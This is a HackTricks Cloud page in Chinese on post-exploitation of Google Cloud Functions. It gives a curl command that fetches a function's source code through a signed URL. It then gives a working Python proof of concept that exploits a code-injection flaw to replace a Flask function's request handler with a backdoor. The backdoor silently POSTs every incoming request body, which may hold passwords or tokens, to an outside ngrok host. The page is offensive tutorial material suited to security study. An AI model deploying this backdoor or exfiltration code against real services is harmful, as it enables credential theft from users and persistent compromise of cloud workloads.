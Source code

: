 # GCP - 云函数后渗透

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享您的黑客技巧
- github仓库。

</details>

## 云函数

在以下位置找到有关云函数的一些信息：

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.sourceCodeGet`

使用此权限，您可以获取一个**已签名的URL，以便下载云函数的源代码**：

{% code overflow="wrap" %}
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

### 窃取 Cloud Function 请求

如果 Cloud Function 管理用户发送的敏感信息（例如密码或令牌），通过足够的权限，您可以**修改函数的源代码并窃取**这些信息。

此外，运行在 python 中的 Cloud Functions 使用 **flask** 来公开 Web 服务器，如果您在 flaks 进程中发现代码注入漏洞（例如 SSTI 漏洞），就有可能**覆盖将接收 HTTP 请求的函数处理程序**，用一个**恶意函数**来**窃取请求**，然后再将其传递给合法处理程序。

例如，以下代码实现了这种攻击：
```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
"""HTTP Cloud Function.
Args:
request (flask.Request): The request object.
<https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
Returns:
The response text, or any set of values that can be turned into a
Response object using `make_response`
<https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
"""

if not last:
return injection()
else:
if error:
return error
else:
return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
try:
from urllib import request as urllib_request
req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
urllib_request.urlopen(req, timeout=0.1)
except Exception as e:
if not "read operation timed out" in str(e):
return str(e)

return ""

def new_http_view_func_wrapper(function, request):
def view_func(path):
try:
error = exfiltrate(request)
return function(request._get_current_object(), last=True, error=error)
except Exception as e:
return str(e)

return view_func
"""

def injection():
global new_function
try:
from flask import current_app as app
import flask
import os
import importlib
import sys

if os.access('/tmp', os.W_OK):
new_function_path = "/tmp/function.py"
with open(new_function_path, "w") as f:
f.write(new_function)
os.chmod(new_function_path, 0o777)

if not os.path.exists('/tmp/function.py'):
return "/tmp/function.py doesn't exists"

# Get relevant function names
handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
realpath = os.path.realpath(source_path) # Get full path

# Get the modules representations
spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
module_handler = importlib.util.module_from_spec(spec_handler)

spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
module_backdoor = importlib.util.module_from_spec(spec_backdoor)

# Load the modules inside the app context
with app.app_context():
spec_handler.loader.exec_module(module_handler)
spec_backdoor.loader.exec_module(module_backdoor)

# make the cloud funtion use as handler the new function
prev_handler = getattr(module_handler, handler_fname)
new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
return "Injection completed!"

except Exception as e:
return str(e)
```


